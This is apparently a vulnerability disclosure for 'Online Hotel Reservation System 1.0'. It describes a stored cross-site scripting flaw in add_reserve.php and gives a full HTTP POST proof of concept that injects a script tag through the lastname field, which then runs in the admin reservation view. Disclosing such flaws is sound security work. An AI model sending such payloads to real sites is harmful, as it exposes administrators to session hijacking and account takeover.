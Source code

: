 ## Online Hotel Reservation System has an XSS injection vulnerability

## Affected version:

Online Hotel Reservation System - 1.0

## Software:

https://code-projects.org/simple-online-hotel-reservation-system-in-php-with-source-code/

## Vulnerability File:

/HOR/add_reserve.php

## Description:

Any visitor user can send hotel reservation invitations containing XSS statements without logging in, exposing administrators to attacks when they view reservation orders.

Status: Moderate

POC

```
POST /HOR/add_reserve.php?room_id=6 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4
Content-Length: 879
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/HOR/add_reserve.php?room_id=6
Cookie: PHPSESSID=db5no8dvip725j5p64esp3qbge
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4
Content-Disposition: form-data; name="firstname"

xxxx
------geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4
Content-Disposition: form-data; name="middlename"

xxxx
------geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4
Content-Disposition: form-data; name="lastname"

<script>alert(123)</script>
------geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4
Content-Disposition: form-data; name="address"

xxxxx
------geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4
Content-Disposition: form-data; name="contactno"

xasfasf
------geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4
Content-Disposition: form-data; name="date"

xxx
------geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4
Content-Disposition: form-data; name="add_guest"


------geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4--
```

access the following path:

```
HOR/admin/reserve.php
```

image:

![image](https://github.com/foreverfeifei/HOR-CVE/blob/main/Pasted%20image%2020251021162023.png)
